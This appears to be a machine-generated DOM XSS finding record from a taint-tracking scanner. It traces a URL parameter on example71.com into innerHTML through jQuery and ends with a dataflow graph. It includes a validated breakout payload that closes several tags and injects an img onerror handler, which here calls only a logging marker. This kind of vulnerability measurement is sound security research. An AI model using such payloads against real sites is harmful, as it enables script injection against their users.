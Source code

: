 // Finding: 68c815a9-a7c9-4b46-8080-1e4897565e28
// Finding.url: https://example71.com/grants/awarded-grants?field_recipient_type[Office+of+Library+Services]=Office+of+Library"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('44dd7a56f5e24b15844a7abffab11f1d')><!--/*+Services&field_fiscal_year_text[1]=1
// Finding.parentloc: https://example71.com/grants/awarded-grants?field_recipient_type[Office+of+Library+Services]=Office+of+Library"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('44dd7a56f5e24b15844a7abffab11f1d')><!--/*+Services&field_fiscal_year_text[1]=1
// Finding.domain: example71.com
// Finding.base_domain: example71.com
// Finding.source: location.search
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 218
// Finding.end: 220
// Finding.original_uuid: bb418ff5-d553-4c4f-ba22-1b60cb9fd8fa
// Finding.TwentyFiveMillionFlowsId: 534108033
// Finding.script: https://example71.com/core/assets/vendor/jquery/jquery.min.js?v=3.5.1
// Finding.line: 2
// Exploit.uuid: 44dd7a56-f5e2-4b15-844a-7abffab11f1d
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: id
// Exploit.quote_type: "
// Exploit.tag: span
// Exploit.break_out: Library"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: Library"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 98
// Exploit.end_taint_url: 105
// Exploit.replace_begin_url: 98
// Exploit.replace_end_url: 105
// Exploit.replace_begin_param: 92
// Exploit.replace_end_param: 99
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 404780196
// DepGraph.sanitizer_hash: -1517552293
// Merged split and join statements 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="decodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="url_params_key"];
n4 [shape=box, label="Lit: field_recipient_type[Office of Library Services]"];
n5 [shape=box, label="Var: x"];
n6 [shape=ellipse, label="preg_replace"];
n7 [shape=box, label="RegExp: /[ ]/"];
n8 [shape=box, label="Lit: -"];
n9 [shape=box, label="Var: x"];
n10 [shape=box, label="Var: x"];
n11 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n5 -> n1;
n3 -> n4;
n3 -> n5;
n9 -> n3;
n6 -> n7;
n6 -> n8;
n6 -> n9;
n10 -> n6;
n11 -> n10;
}